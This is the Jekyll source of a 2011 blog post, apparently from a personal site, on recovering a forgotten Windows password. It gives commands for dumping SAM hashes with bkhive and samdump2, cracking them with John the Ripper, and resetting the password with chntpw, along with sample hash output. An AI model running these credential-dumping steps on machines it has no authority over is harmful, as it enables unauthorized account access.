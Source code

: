 ```yaml
---
layout: blog-post
title: "Crack or Reset Windows Passwords"
excerpt: "Crack or Reset Windows Passwords"
disqus_id: /2011/09/18/crackresetwindows/
location: Delhi, India
time: 11:00 AM
tags:
- Hacking
- Windows
---
```


If you have forgotten the Windows Administrator password, you can either reset or even crack it.
Windows XP stored it username and password information in file named SAM at %SystemDrive%:\Windows\system32\config\. The SAM file is encrypted using LM hashes, which is vulnerable to rainbow table attack and bruteforce attack.

I am going to do this  with already available tools in Backtrack.

{% highlight text %}
cd /mnt/hda1/WINDOWS/system32/config/
bkhive system key
samdump2 SAM key > /root/pass1
{% endhighlight %}  

This will dump the hashes in /root/pass1 file as shown below

{% highlight text %}
Root Key : CMI-CreateHive{C4E7BA2B-68E8-499C-B1A1-371AC8D717C7}
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
madhurdesk:1000:aad3b435b51404eeaad3b435b51404ee:ba03a114def8d5c913983436960e592c:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:cdaac87aeeac96724b4a2af3c4879242:::
{% endhighlight %}  

Cracking using John the ripper,

{% highlight text %}
john --format=NT /root/pass1
Loaded 1 password hash (NT MD4 [128/128 SSE2 + 32/32])
{% endhighlight %} 

Or, you can directly reset it with chntpw

{% highlight text %}
/pentest/password/chntpw -u administrator SAM
{% endhighlight %}
